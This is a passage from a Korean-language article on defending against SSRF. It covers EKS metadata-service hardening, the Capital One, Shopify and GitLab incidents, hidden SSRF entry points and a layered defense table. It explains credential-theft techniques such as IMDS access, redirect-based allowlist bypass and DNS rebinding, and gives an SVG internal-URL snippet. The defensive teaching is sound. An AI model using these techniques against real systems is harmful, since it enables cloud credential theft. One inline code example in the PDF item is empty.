1. 모든 pod는 IRSA를 쓴다(`eksctl create iamserviceaccount` 또는 Pod Identity)
2. hop limit을 1로 설정해서 일반 pod의 IMDS 접근을 차단
3. NetworkPolicy로 IMDS IP 명시적 차단(이중 안전망)
4. EKS Pod Identity를 쓸 수 있는 환경이라면 IRSA 대신 Pod Identity가 더 단순하다(JWT 토큰 발급 흐름이 노드 에이전트 경유라 pod에 OIDC 트러스트 설정 불필요)

이렇게 구성하면 SSRF가 발생해도 169.254.169.254로의 요청 자체가 못 나가서 메타데이터 탈취 경로가 차단된다.

---

## 실제 사고 사례

### Capital One (2019)

WAF 설정 미스로 EC2 인스턴스에서 SSRF가 가능했고, 공격자가 IMDSv1으로 IAM Role 크레덴셜을 탈취해 S3 버킷에서 1억 건 이상의 고객 정보를 가져갔다. 이 사고 이후 AWS가 IMDSv2를 도입했고 다수의 클라우드 베스트 프랙티스가 재정비됐다.

교훈은 단순하다. WAF 룰에 의존하지 말고 IMDSv2 강제, hop limit 1, 애플리케이션 단 URL 검증을 같이 적용해야 한다.

### Shopify Exchange (HackerOne 공개 리포트)

상품 정보를 가져오는 기능에서 외부 URL을 입력받아 fetch하는데, 리다이렉트를 자동으로 따라가는 설정이 문제였다. 공격자가 자기 서버에서 302를 던지면 최종 목적지는 내부 메타데이터 서비스가 됐다. allowlist는 최초 URL만 검증하고 리다이렉트 후 URL은 검증하지 않았다는 게 핵심 원인이다.

이 패턴은 의외로 흔하다. `allow_redirects=False`를 빼먹거나, 리다이렉트를 따라가야 하는 상황에서 각 단계마다 재검증을 안 하면 똑같이 뚫린다.

### GitLab Webhook (CVE-2021-22214)

웹훅 기능에서 입력 URL의 DNS resolve가 호출 시점마다 새로 일어나는 점을 이용해 DNS rebinding이 가능했다. URL을 등록할 때는 외부 IP로 resolve되어 검증을 통과하지만, 실제 웹훅이 발사되는 시점에는 내부 IP로 resolve되어 내부 리소스에 도달했다. CI 러너에서 self-hosted GitLab 인스턴스의 IMDS 같은 자원에 접근 가능했다.

대응은 resolve된 IP를 캐시해서 같은 IP로 연결하거나, IP로 직접 연결하면서 Host 헤더만 원래 호스트명을 쓰는 방식이다.

### 공통 패턴

세 사례 모두 단일 검증에 의존했다는 공통점이 있다.

- Capital One: WAF에만 의존
- Shopify: 최초 URL allowlist에만 의존
- GitLab: 검증 시점의 DNS resolve에만 의존

SSRF 방어는 입력 검증, DNS resolve 후 IP 검증, IP 직접 연결, 리다이렉트 비활성화, 클라우드 메타데이터 차단을 다 적용해야 한다. 한 단계만 막아두면 우회 기법이 한 개만 통하면 끝이다.

---

## 놓치기 쉬운 SSRF 진입점

URL을 직접 받는 경우만 SSRF가 아니다.

- **XML 파싱 (XXE → SSRF)**: XML의 외부 엔티티(`<!ENTITY>`)가 URL을 가져올 수 있다. XML 파서의 외부 엔티티 처리를 비활성화해야 한다.
- **SVG 업로드**: SVG 안에 `<image href="http://internal/...">` 같은 참조가 들어갈 수 있다. 서버 사이드에서 SVG를 렌더링하면 SSRF가 된다.
- **PDF 생성**: HTML → PDF 변환 시 HTML 안의 리소스 URL을 서버가 가져온다. ``가 가능하다.
- **Git clone**: 사용자가 입력한 레포 URL로 `git clone`을 실행하면, `git://` 프로토콜이나 내부 주소로 요청이 갈 수 있다.
- **데이터베이스 연결**: JDBC URL 같은 연결 문자열을 사용자가 입력하는 경우, 내부 서비스에 연결을 시도할 수 있다.
- **OAuth callback URL**: Authorization Server가 callback URL의 도메인을 충분히 검증하지 않으면, 인증 코드를 내부 엔드포인트로 전달하게 만들 수 있다.

---

## 정리

SSRF 방어는 한 가지만으로 되지 않는다. 조합해서 쓴다.

| 계층 | 방법 |
|------|------|
| 입력 검증 | allowlist 기반 URL 필터링, 프로토콜 제한(HTTP/HTTPS만) |
| DNS 레벨 | resolve 후 IP 검증, resolve된 IP로 직접 연결 |
| HTTP 클라이언트 | 리다이렉트 비활성화, 타임아웃 설정 |
| 클라우드 인프라 | IMDSv2 강제, hop limit 1 |
| 컨테이너/k8s | IRSA, NetworkPolicy로 IMDS 차단, hostNetwork 점검 |
| 네트워크 | 아웃바운드 방화벽, 내부 대역 차단, 프록시 경유 |
| 탐지 | VPC Flow Logs IMDS 호출 모니터링, Falco 룰, ssrf_attempt 로그 알람 |
